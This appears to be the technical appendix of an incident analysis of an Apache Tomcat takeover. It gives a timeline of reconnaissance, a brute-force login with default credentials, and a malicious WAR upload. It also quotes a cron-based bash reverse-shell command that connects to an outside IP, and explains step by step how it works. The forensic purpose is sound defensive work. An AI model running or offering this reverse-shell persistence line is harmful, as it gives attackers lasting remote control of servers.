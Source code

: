
## 11. Technical Appendix

### 11.1 Attack Timeline Correlation

```
18:13:06 - Network activity begins (SMB file access by internal user)
18:15:51 - Attacker reconnaissance phase starts
18:18:52 - Directory enumeration (Gobuster) phase
18:19:56 - Credential brute-force attack initiation
18:20:24 - Successful authentication (admin:tomcat)
18:22:14 - Malicious WAR file upload (JXQOZY.war)
18:22:23 - Web shell activation and reverse shell deployment
18:27:37 - Final network activity observed
```

### 11.2 Reverse Shell Technical Details

**Command Construction:**
```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
```

**Execution Flow:**
1. Cron executes command every minute
2. `/bin/bash -c` spawns new bash process
3. `bash -i` creates interactive shell
4. `>& /dev/tcp/14.0.0.120/443` redirects I/O to network connection
5. `0>&1` links stdin to stdout for bidirectional communication

**Network Connection:**
* **Protocol:** TCP
* **Direction:** Outbound from compromised server
* **Destination:** 14.0.0.120:443
* **Frequency:** Every 60 seconds
* **Stealth:** Uses HTTPS port for evasion

---

✅ **Conclusion:**
The Apache Tomcat takeover analysis reveals a highly efficient and systematic compromise achieved in under 15 minutes. The attack demonstrates professional-level techniques including automated reconnaissance, credential brute-forcing, legitimate feature abuse, and sophisticated persistence mechanisms. The establishment of a reverse shell with automatic reconnection every minute provides sustained command and control capabilities, representing a critical security breach requiring immediate response. This incident emphasizes the critical importance of securing administrative interfaces, implementing strong authentication controls, deploying comprehensive network monitoring, and establishing robust incident response capabilities for web application environments.